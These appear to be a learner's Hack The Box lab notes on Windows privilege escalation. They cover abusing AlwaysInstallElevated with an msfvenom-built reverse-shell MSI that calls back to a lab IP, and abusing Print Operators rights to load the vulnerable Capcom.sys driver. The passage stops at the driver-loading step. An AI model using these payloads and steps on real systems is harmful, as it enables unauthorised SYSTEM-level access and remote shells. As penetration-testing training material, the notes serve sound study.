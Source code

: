 ## Always Install Elevated ⭐

```powershell
PS C:\\htb> reg query HKEY_CURRENT_USER\\Software\\Policies\\Microsoft\\Windows\\Installer

HKEY_CURRENT_USER\\Software\\Policies\\Microsoft\\Windows\\Installer
    AlwaysInstallElevated    REG_DWORD    0x1
```

```powershell
PS C:\\htb> reg query HKLM\\SOFTWARE\\Policies\\Microsoft\\Windows\\Installer

HKEY_LOCAL_MACHINE\\SOFTWARE\\Policies\\Microsoft\\Windows\\Installer
    AlwaysInstallElevated    REG_DWORD    0x1
```

Our enumeration shows us that the `AlwaysInstallElevated` key exists, so the policy is indeed enabled on the target system.

We will now generate a malicious MSI package and execute it via cmd to obtain a reverse shell with system privileges.

* `dollarboysushil@htb[/htb]$ msfvenom -p windows/shell_reverse_tcp lhost=10.10.14.3 lport=9443 -f msi > aie.msi`

transfer this msi file and setup netcat listener

* `C:\\htb> msiexec /i c:\\users\\htb-student\\desktop\\aie.msi /quiet /qn /norestart` → execute the file

## **Print Operators ⭐**

[Print Operators](https://docs.microsoft.com/en-us/windows/security/identity-protection/access-control/active-directory-security-groups#print-operators) is another highly privileged group, which grants its members the `SeLoadDriverPrivilege`, rights to manage, create, share, and delete printers connected to a Domain Controller, as well as the ability to log on locally to a Domain Controller and shut it down.

plus it allows an account to load system driver.

Now we have power to load system driver. we will import  driver `Capcom.sys` which contains function to allow any user to execute shell code with system privileges.

`Capcom.sys` driver can be downloaded from here [https://github.com/FuzzySecurity/Capcom-Rootkit/blob/master/Driver/Capcom.sys](https://github.com/FuzzySecurity/Capcom-Rootkit/blob/master/Driver/Capcom.sys)

[https://github.com/JoshMorrison99/SeLoadDriverPrivilege](https://github.com/JoshMorrison99/SeLoadDriverPrivilege)

From above github we will use `Capcom.sys` `LoadDriver.exe` and `ExploitCapcom.exe`

additionally we can create a malicious `rev.exe` using metasploit so that we can execute this later when Capcom.sys driver loaded

*   `.\\LoadDriver.exe System\\CurrentControlSet\\MyService C:\\Users\\Test\\Capcom.sys` → to load the `Capcom.sys` driver
